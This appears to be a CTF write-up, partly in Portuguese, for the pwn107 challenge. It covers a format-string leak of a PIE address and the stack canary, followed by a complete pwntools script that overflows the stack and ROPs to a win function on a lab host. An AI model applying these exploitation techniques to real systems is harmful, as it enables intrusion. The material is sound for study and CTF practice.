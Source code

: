 
### Canary found /Printf



Command file:

```
file pwn107.pwn107                                                
pwn107.pwn107: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0579b2a29d47165653fbb791fb528c59e951a1a0, not stripped

```

Command checksec:

```
hecksec --file=pwn107.pwn107  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   74 Symbols        No    0               2               pwn107.pwn107

```

exploit:
- leak data:
	- vulnerability format string %X
- printf e o que permite dar leak on date
- 64-bit architecture each memory cell is 8 bytes 
	-  address que queremos muda sempre o programa e executado mas com sabemos que a address e que para dar leak esta 3 posicoes a frente, e a outra e canary que esta 7 posiçao .
	- Utilizaçao de breakpoint...
- Posicao inicial é a de input como descobrir a address inicial?
	- Recognazible sequence of bytes that are easy to identify when they got printed
	 - ABCD.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX
	 - nao funciaona porque so consigos dar leak a 20bytes logo utilizamos:
	 - Isto vai dar leak a posicoes especifica de memory:objectivo encontra 44434241 ⁼ ABCD
	 - ``` ABCD.%6$lX.%7$lX.%8$lX.%9$lX ```
		- que o input posiçao e 6
		- logo address of lçibc_csu_init is at 9$ =6+3 -- 9 +6=15
		- CAnary is at input 6+7 = 13  -- 13+6=19
		- Leaking libc_csu + canary:
			- ```payload2= b"%14$lX.%13$lX"```
			- ```payload= b"%17$lX.%21$lX"```
			- 0x20 +0x8 + @ret
			- @ret = get_streak -> function para saltar
	

exploit:

```python 

from pwn import *

  

context.binary = binary = ELF("./pwn107.pwn107")

context.log_level = "debug"

  

static_libc_csu_address = binary.symbols.__libc_csu_init

  

print("Address of stactic libc csu init: {}".format(hex(static_libc_csu_address)))

  

#p = process()

p= remote("10.10.131.234",9007)

p.recvuntil(b"streak?")

  

payload2= b"%14$lX.%13$lX"

payload= b"%17$lX.%21$lX"

p.sendline(payload2)

  

p.recvuntil(b"streak:")

p.recv()

output = p.recv().split(b"\n")[0]

  

dynamic_libc_csu_address = int(output.split(b".")[0].strip(), 16)

canary = int(output.split(b".")[1].strip(),16)

  
  

print("Dynamic libc address is: {}\n Canary is: {}".format(hex(dynamic_libc_csu_address),hex(canary)))

  

dynamic_base_address= dynamic_libc_csu_address - static_libc_csu_address

binary.address = dynamic_base_address

  

#second read writes from rbp-0x20

#CAnary is at rbp-0x8

  

#0x20 - 0x8 = 0x18

dynamic_get_streak = binary.symbols.get_streak

rop = ROP(binary)

ret_gadget = rop.find_gadget(['ret'])[0]

payload= b"A"*0x18 + p64(canary) + b"B"*8 + p64(ret_gadget) + p64(dynamic_get_streak)

p.sendline(payload)

p.interactive()

```